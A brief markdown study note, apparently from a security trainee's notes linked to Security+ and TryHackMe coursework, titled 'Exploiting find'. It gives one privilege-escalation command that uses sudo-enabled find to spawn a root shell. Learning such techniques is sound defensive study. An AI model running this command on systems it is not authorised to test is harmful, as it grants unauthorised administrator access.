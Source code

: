 # Exploiting "find"

* **author**:: Nathan Acks  
* **date**:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

* [2022-04-20 — ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
